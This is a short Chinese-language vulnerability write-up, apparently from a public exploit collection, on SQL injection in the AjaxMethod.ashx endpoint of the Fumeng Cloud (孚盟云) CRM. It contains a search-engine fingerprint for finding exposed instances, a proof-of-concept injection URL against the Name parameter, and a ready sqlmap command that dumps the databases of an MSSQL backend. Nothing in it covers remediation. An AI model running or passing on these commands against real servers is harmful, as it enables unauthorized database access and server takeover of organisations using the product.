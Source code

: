 # 孚盟云 AjaxMethod.ashx SQL注入漏洞

## 漏洞描述

孚盟云 AjaxMethod.ashx文件存在SQL注入漏洞，攻击者通过漏洞可获取服务器权限

## 漏洞影响

```
孚盟云
```

## 网络测绘

```
title="孚盟云 "
```

## 漏洞复现

登录页面



![image-20220210184424096](images/202202101844185.png)



验证POC



```plain
http://xxx.xxx.xxx.xxx/Ajax/AjaxMethod.ashx?action=getEmpByname&Name=Y%27
```

![image-20220210184439151](images/202202101844214.png)



使用Sqlmap



```plain
sqlmap -u "http://xxx.xxx.xxx.xxx/Ajax/AjaxMethod.ashx?action=getEmpByname&Name=Y" -p Name --batch --random-agent --dbms mssql --dbs
```



![image-20220210184456424](images/202202101844599.png)